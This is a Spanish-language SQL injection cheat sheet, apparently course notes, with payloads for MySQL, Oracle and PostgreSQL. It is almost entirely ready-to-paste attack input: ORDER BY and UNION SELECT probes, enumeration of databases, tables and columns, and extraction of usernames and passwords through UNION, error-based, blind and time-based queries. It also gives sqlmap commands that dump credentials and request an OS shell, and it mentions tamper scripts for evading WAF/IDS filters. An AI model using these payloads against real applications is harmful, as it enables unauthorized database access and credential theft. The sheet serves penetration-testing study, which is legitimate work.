 ```yaml
---

### 💥 **SQL Injection Cheat Sheet** 💥

---
```

---
## **Deteccion**  

```sql
'
"
' or sleep(5)--
'||pg_sleep(5)--
'; waitfor delay '0:0:5'--
```

---
# **SQLi**  

## **Fase 1: Descubrimiento de Columnas con `ORDER BY`**  

Para determinar el número de columnas en la consulta SQL, se usa la cláusula **`ORDER BY`**:  
```sql
id=3' order by 100-- -
```
- **Si no da error:** El número de columnas es mayor o igual a 100.  
- **Si da error:** El número de columnas es menor a 100.  
- **Ajustar el número hasta encontrar el límite exacto.**  

---

## **Fase 2: Exploración con `UNION SELECT`**  

Una vez conocida la cantidad de columnas, intentamos combinar los resultados de la consulta original con los nuestros:  
**MySQL y Microsoft**
```sql
id=3' union select 1--+-
id=3' union select NULL,2,@@version--+-

```
**Oracle**
```sql

id=3' union select NULL,NULL FROM DUAL-- 
id=3' union select 'a','b' FROM DUAL-- 
id=3' union select 'a',banner from v$version--
```
Esto debería mostrar el valor `1` en la columna inyectada si la consulta es exitosa.  

---

## **Fase 3: Enumeración de Bases de Datos**  

Para listar todas las bases de datos:  
**MySQL**
```sql
id=32' union select schema_name from information_schema.schemata-- -
```
- **`schema_name`:** Columna que contiene los nombres de las bases de datos.  
- **`information_schema`:** Esquema especial que almacena metadatos.  
- **`schemata`:** Tabla que contiene los nombres de las bases de datos.  
**Oracle**
---

## **Concatenación con `group_concat()`**  
Si el resultado está limitado, usamos la función **`group_concat()`**:  
```sql
id=32' union select group_concat(schema_name) from information_schema.schemata-- -
```
También podemos usar **`LIMIT`** para obtener resultados específicos:  
```sql
id=32' union select schema_name from information_schema.schemata limit 0,1-- -
```

---

## **Fase 4: Enumeración de Tablas**  

Para listar todas las tablas dentro de una base de datos:  
**MySQL**
```sql
id=32' union select group_concat(table_name) from information_schema.tables where table_schema='Hack4u'-- -
```
**Oracle**
```sql
id=32' union select NULL,table_name from all_tables-- -
```


---

## **Fase 5: Enumeración de Columnas**  

Para listar todas las columnas dentro de una tabla específica:  
**MySQL**
```sql
id=32' union select group_concat(column_name) from information_schema.columns where table_schema='Hack4u' and table_name='users'-- -
```
**Oracle**
```sql
id=32' union select NULL,column_name from all_tab_columns where table_name='table'-- -
```
---

## **Fase 6: Extracción de Datos**  
**MySQL**
Obtener los usuarios almacenados:  
```sql
id=32' union select group_concat(username) from users-- -
```

Obtener usuarios y contraseñas en conjunto:  
```sql
id=32' union select group_concat(username,':',password) from users-- -
id=32' union select NULL,group_concat(username,0x3a,password) from users-- 
id=32' union select NULL,concat(username,0x3a,password) from users-- 
id=32' union select NULL,username||':'||password from users-- 2
```

Obtener usuarios y contraseñas aprovechando errores:
*Probar siempre tambien borrando la data que habia antes*
```sql
id=32' or 1=cast((select 1) as INT)-- -
id=' or 1=cast((select password from users limit 1) as INT)-- -
```

**Oracle**
```mysql
id=32' union select username,password from users-- -
```


---
## **BSQLi**
## **Enumeracion basada en nested queries**

### MySQL
**Enumeracion de contraeñas**
```sql
id=32' and (select substring(password,1,1) from users where username='administrator')='a'-- -
```

**Enumeracion de longitud de contraseña**
```sql
id=32' and (select 'a' from users where username='administrator' and length(password)>10)='a'-- -
```

### Oracle
**Enumeracion de contraeñas**
```sql
id=32'||(select case when substr(password,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'
```

**Enumeracion de longitud de contraseña**
```sql
id=32'||(select case when length(password)>20 then to_char(1/0) else '' end from users where username='administrator')||'
```

## Enumeracion basada en retrasos de tiempo

### PostgreSQL
**Enumeracion de longitud de contraseña**
```sql
id=32'%3b select case when(username='administrator' and length(password)=20) then pg_sleep(5) else pg_sleep(0) end from users-- 
```

**Enumeracion de contraeñas**
```sql
id=32'%3b select case when(username='administrator' and substring(password,1,1)='a') then pg_sleep(5) else pg_sleep(0) end from users-- 
```
---
## **Automatización con SQLMap**  

### **Enumeración de Bases de Datos:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbs --cookie "PHPSESSID=8123791283"
```

### **Listar Tablas de una Base de Datos:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbms mysql --batch -D Hack4u --tables
```

### **Listar Columnas de una Tabla:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbms mysql --batch -D Hack4u -T users --columns
```

### **Dumpear Información Sensible:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --dbms mysql --batch -D Hack4u -T users -C username,password --dump
```

### **Obtener Shell Remota:**
```bash
sqlmap -u 'http://localhost/searchUsers.php?id=1' --os-shell
```

---

## **Parámetros Útiles de SQLMap**
| Parámetro    | Descripción                                                         |
|-------------|---------------------------------------------------------------------|
| `--dbs`     | Lista todas las bases de datos.                                      |
| `--tables`  | Lista todas las tablas de una base de datos.                         |
| `--columns` | Lista todas las columnas de una tabla.                               |
| `--dump`    | Extrae los datos de la tabla especificada.                           |
| `--os-shell`| Intenta obtener una consola del sistema operativo.                   |
| `--risk`    | Nivel de riesgo (1-3).                                                |
| `--level`   | Nivel de pruebas (1-5).                                               |
| `--tech`    | Especifica técnicas de inyección.                                     |
| `--tamper`  | Usa scripts de evasión para eludir filtros WAF/IDS.                    |

---

